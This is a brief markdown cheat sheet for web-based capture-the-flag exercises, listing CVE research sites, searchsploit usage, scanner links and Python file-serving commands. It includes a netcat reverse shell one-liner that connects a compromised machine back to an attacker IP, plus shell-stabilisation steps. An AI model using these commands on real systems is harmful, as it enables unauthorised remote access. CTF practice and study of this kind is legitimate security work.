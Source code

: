 # Notes related to web based CTFs

## Useful Research link

**CVE:**\

- Identification: CVE-YEAR-IDNUMBER
- [Exploit DB](https://www.exploit-db.com/)
- [National Vulnaribility Database](https://nvd.nist.gov/vuln/search)
- [CVE Metre](https://cve.mitre.org/)
- [CVE details](https://cvedetails.com)

### `searchsploit`

```bash
searchsploit <target technology name>
searchsploit fuel cms
```

## Scanners

[nikto](../../tools/Nikto/README.md)

## Enumerations

[gobuster](../../tools/Gobuster/README.MD)

## Reverse shell

[Highoncoffe Reverse shell guide](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

### `nc`

```bash
nc -lnvp <port>                   # in attacker machine
nc <ip> <port> -e /bin/bash     # in compromised machine
# nc 10.8.215.27 1234 -e /bin/bash
```

- **`python`**
  - `python -c 'import pty;pty.spawn("/bin/bash")'` in compromised machine after getting nc shell
- **`script`**
  - `/usr/bin/script -qc /bin/bash /dev/null`

## Reverse shell stabilization

[netsec](https://netsec.ws/?p=337)

### `stty`

```bash
stty raw -echo               # after backgrounding the nc shell
```

after `fg` type `reset` in the new shell

export TERM=xterm

## File transfer and stuffs

- `python -m SimpleHTTPServer`
- `python3 -m http.server`
